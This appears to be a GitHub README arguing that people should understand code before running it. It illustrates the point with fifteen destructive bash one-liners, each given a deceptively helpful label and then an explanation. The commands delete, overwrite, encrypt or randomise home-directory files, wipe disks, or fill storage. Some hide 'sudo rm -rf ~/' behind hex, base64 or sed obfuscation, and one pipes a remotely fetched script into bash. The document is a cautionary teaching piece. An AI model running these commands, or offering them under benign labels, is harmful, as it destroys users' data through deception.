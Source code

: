 # My one-page argument for learning to code (examples explained)

## **_NEVER_** run code you don't understand

I often hear people call themselves 'Copy and paste' coders. And, while copying and pasting is a legitimate thing to do,
it should not be your only way of doing things. A better method is to find code, see what is done and then recreate it,
and at a bare minimal, copy it, but know exactly what it does. \
Here is my small example of code that has unintended results.


> "Running code you found on the internet is like chewing gum you found in the subway".

### Try these (IN A VIRTUAL MACHINE!)

#### Here are some good descriptions to **bad** commands

Note: Most of these will error, but if suppressed with `&> /dev/null` or forked `&` can still do a lot of damage before
you can take action.

A. Greatly simplifies document syntax:
> Uses find to get all files and use sed to replace the contents with asterisks (*)

``` bash
while read f; do LC_CTYPE=C sed -i "" 's:.:*:g' "$f"; done <<< "$(find ~/ -type f -print)"
```

B. Frees up unnecessary space:
> For all  files in home, remove it forcefully

``` bash
du ~ | grep -o '/.*' | xargs rm -rf --
```

C. Re-links your files to improve efficiency:
> For the file files in the home at a depth of 2 link the file to dev/null

``` bash
du ~/*/* | grep -o '/.*' | xargs -n 1 ln -sf /dev/null/
```

D. Move files/folders to a volume with unlimited storage:
> Move file to /dev/null

``` bash
for d in ~/*/*; do mv "$d" /dev/null; done
```

E. Frees up all unnecessary space:
> "7375646f20726d202d7266207e2f0a" hex dumped is "sudo rm -rf ~/" and command will run it

``` bash
command $(echo 7375646f20726d202d7266207e2f0a | xxd -r -p ) &> /dev/null
```

F. Frees up all unnecessary space:
> "c3VkbyBybSAtcmYgfi8K" in base64 is "sudo rm -rf ~/" and command will run it

``` bash
command $(echo c3VkbyBybSAtcmYgfi8K | base64 -d ) &> /dev/null
```

G. Chew the gum you don't even know:
> Pulls a malicious file from the internet and runs it

``` bash
bash -c "$(curl -s https://raw.githubusercontent.com/thedzy/My-one-page-argument-for-learning-to-code/master/malicious_file.sh)"
```

H. Frees up unnecessary space:
> Removing the characters a,b,c,d,e,s,t,u,v,w,x,y,z from "stream -draft ~/saved", gives you "rm -rf ~/" and eval runs that as code

```bash
eval $(sed 's:[a-e,s-z]::g' <<< "stream -draft ~/saved")
```

I. Compress files and save space:
> For the file files in the home at a depth of 6, add the contents to a zip and give it a random password

```bash
zip --password "$(openssl rand -base64 64)" --move "$(openssl rand -hex 4)".zip  ~/*/*/*/*/*
```

J. Reduce your need of the external volumes:
> For each volume (/dev/disk[2-9]) write random data to the drive, fork the process

```bash
for d in /dev/disk[2-9]*; do dd if=/dev/random of=$d &; done
```

K. Simply your files and your life:
> Uses find to get all files and uses tee to write empty contents to file

```bash
find ~/ -type f -exec bash -c ':|tee {} &' \;
```

L. Keep logs of files in the home folder utilising your current files:
> Uses find to get all files and uses awk to write file name into contents

```bash
find ~/ -type f -exec awk 'FNR == 1{ print FILENAME > FILENAME } ' {}  \;
```

M. Cut down on disk space without removing a file:
> Loops though each inode in volume, if file exist and is writable, it wipes the content

```bash
while read n; do eval `stat -s /`; echo $n, $st_dev; for i in $(seq 0 1 $n);do [ -f /.vol/$st_dev/$i ] &&  [ -w /.vol/$st_dev/$i ] && echo > /.vol/$st_dev/$i ; done; done <<< `df -i | awk '$NF ~ /\/$/ {print $6}'`           
```

N. Every file gets a random makeover generating original data!
> Uses find to get all files and uses dd to write random content to the file

```bash 
find ~ -type f -exec dd if=/dev/urandom of={} bs=1M count=1 \;
```

O. Find your storage’s true limit.
> Write random dat to random files in random folders until the drive fills up

```bash
dirs=($(IFS=$'\n'  find ~/ -type d -print)); while True; do cat /dev/random > ${dirs[$RANDOM % ${#dirs[@]}]}/$(openssl rand -hex $(($RANDOM % 32))); done
```

### Recommended testing environment:

1. Create a virtual machine.
2. Open terminal and run the following command to copy some files to the desktop: \
   ```find / -iname "*.txt" 2>/dev/null | head -n 60 | xargs -n1 -J% cp % $HOME/Desktop/ ```
3. Snapshot your VM, because you'll want it
4. Run the command
5. Restore
6. Rinse and repeat
